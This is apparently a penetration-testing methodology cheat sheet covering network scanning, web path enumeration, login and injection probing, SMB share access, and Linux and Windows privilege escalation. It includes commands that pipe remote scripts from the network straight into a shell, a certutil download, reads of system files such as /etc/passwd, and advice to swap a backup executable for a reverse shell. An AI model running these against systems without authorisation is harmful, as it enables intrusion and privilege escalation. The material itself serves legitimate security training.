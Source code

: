 # Methodology


## Initial Discovery

1) If you don't know where the target lives, use `netdiscover` to find it

```
sudo netdiscover -i eth0
```

2) Enumerate TCP ports on the target with `nmap`

```
nmap -Pn -v -p- -T4 ${TARGET_HOST}
```

2) Enumerate UDP ports on the target with `nmap`

```
nmap -v -sU -F -T4 ${TARGET_HOST}
```

> The `-F` option will do only the top 100 common UDP ports... (UDP scans are slow)


3) Get service fingerprint info with `nmap`

```
nmap -Pn -v -p ${PORTS_FROM_2} -T4 -A ${TARGET_HOST}
```

4) Take notes of `nmap`'s results

- Any service / versions available
- For HTTP Servers:
  - Any relevant HTTP headers
  - Any hits in robots.txt

## Webserver Enumeration

5) **ALWAYS** check for a `robots.txt` file... usually it will quickly give away some routes (faster than waiting for automated enumeration).

6) Enumerate webserver paths with `gobuster`:

```
gobuster dir -u ${TARGET_URL} -w ${WORDLIST_PATH}
```

Some useful options:

- `-f` will append a trailing slash to all words (`/`)
- `-x '.php,.txt'` will append strings to all words

## Webserver Form Tampering

7) **ALWAYS** try a handful of well-known bad username+password combinations e.g. `admin:admin`, `admin:password`, ...

8) **ALWAYS** try special characeters like `'` which could reveal the possibility of SQL injection

9) **ALWAYS** try script tags like `<script>alert('hello')</script>` that could reveal the possibility of XSS

...

## Webserver Exploits

1) **ALWAYS** try it before reading the code... to save time

2) If it doesn't work chances are you need to change the code

3) If it still doesn't work, read the code thoroughly. Sometimes the code assumes too much about the target application e.g. that it is hosting the target page / functionality under a certain path.

## SMB Server Enumeration

1) Find unauthenticated SMB shares

```
smbclient -L ${TARGET} -N
```

2) Try connecting to a share

```
smbclient \\\\${TARGET}\\${SHARE_NAME}
```

3) Download files (once in an SMB prompt) (e.g. `smb: \>`)

```
get ${FILENAME}
```

## Privilege Escalation (Linux)

> Quick Notes:
>
> - Print real and effective user and group IDs: `id`
> - Print system information: `uname`
> - Print all cron jobs: `cat /etc/crontab`
> - Print all users `cat /etc/passwd`
> - List commands allowed using sudo: `sudo -l`
> - Find all suid and guid binaries: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

1) Check if you can run any commands as sudo

```
sudo -l
```

Check any hits against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "Sudo" function in GTFOBins)

2) Always check for SUID (and GUID) binaries first

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Check them against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "SUID" function in GTFOBins)

3) Check for cron jobs running with root privilages

```
cat /etc/crontab
```

4) Run LinPEAS

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

If no cURL on the system try for wget

```
wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

5) Run [`pspy`](https://github.com/DominicBreuker/pspy)

```
./pspy64 -pf -i 1000
```

## Privilege Escalation (Windows)

1) Check your privileges

```
whoami /priv
```

2) Check for a `Backup` dir on the C drive. Sometimes there are scheduled backup jobs running as Administrator. If yes, replace the executable with a reverse shell.

3) Run WinPEAS

```
certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe winpeasany.exe
```

```
winpeasany.exe
```